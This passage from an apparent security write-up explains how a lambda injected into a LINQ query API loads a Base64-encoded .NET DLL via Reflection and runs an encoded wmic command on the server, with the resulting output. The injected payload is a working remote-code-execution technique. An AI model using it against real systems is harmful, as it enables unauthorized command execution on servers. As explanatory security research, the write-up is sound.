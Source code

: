 While there should be a way of compiling the library on `Linux`, I've opted for using the `Visual Studio` "Class Library (.NET Framework)" project template. After having compiled the `Dll`, we need a way of dynamically loading it into our context and call its method.

We can achieve this via [Reflection](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/reflection), which provides the functionality to load an `assembly` (e.g. our `Dll`), obtain information about its classes and in the end invoke its methods. All at runtime. That sounds amazing and scary at the same time! Let's see it in action:

```text { linenos=true, linenostart=1, hl_lines=["12","16","21","33"] }
---snip---
--data '[
  {
    "query" : "(context) =>
      context
      .Documents()
      .Where(document => document.Id == 1337)
      .AsEnumerable()
      .Select(document => {
        var encodedDll = \"TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUu<and so on>\";

        var executionDll = global::System.Reflection.Assembly.Load(Convert.FromBase64String(encodedDll));

        string result = null;

        var getServiceLocation = \"dwBtAGkAYwAgAHMAZQByAHYAaQBjAGUAIAB3AGgAZQByAGUAIAAiAG4AYQBtAGUAPQAnADwAcwBlAHIAdgBpAGMAZQAgAG4AYQBtAGUAPgAnACIAIABnAGUAdAAgAFAAYQB0AGgATgBhAG0AZQA=\";

        foreach (var t in executionDll.DefinedTypes) {
          var execute = t.GetMethod(\"Execute\");
          var command = new object[] { getServiceLocation };
          result = (string) execute.Invoke(null, command);
        }

        return new {
          commandOutput = result,
          document.Id
        };
      })"
  }
]' | jq
---snip---
{
  "commandOutput": "PathName       \r\r\nD:\\path\\to\\our\\service-binary\\<service>.exe  \r\r\n\r\r\n"
  "Id": 1337
}
```

There's quite a lot to unpack here, so let's get to it:


[^fn:1]: As opposed to [query syntax](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/linq/query-syntax-and-method-syntax-in-linq).
[^fn:2]: Here's your friendly reminder that environment variables are **not** a safe place to store secrets.
[^fn:3]: You can find more information and a pretty diagram [here](https://docs.microsoft.com/en-us/iis/get-started/introduction-to-iis/introduction-to-iis-architecture#http-request-processing-in-iis).
[^fn:4]: Again, `Microsoft` has [more](https://docs.microsoft.com/en-us/iis/manage/configuring-security/application-pool-identities) information on the topic.
[^fn:5]: You should instead check out the man himself [here](https://fasterthanli.me/series/reading-files-the-hard-way).
[^fn:6]: It's not as straightforward to obtain the imports of a binary as it is on `Linux`. In the end, I simply loaded the .exe into `Ghidra` and looked at the "Symbol Tree".
[^fn:7]: At first, I've simply used the amazing [CyberChef](https://gchq.github.io/CyberChef/) to encode the command. It turns out that this will trip up `PowerShell`, as it's expecting an `Unicode` string. To make it work, we have to encode our command to `UTF-16LE` before applying the `Base64` encoding. This can be done with `CyberChef` as well. Of course it can.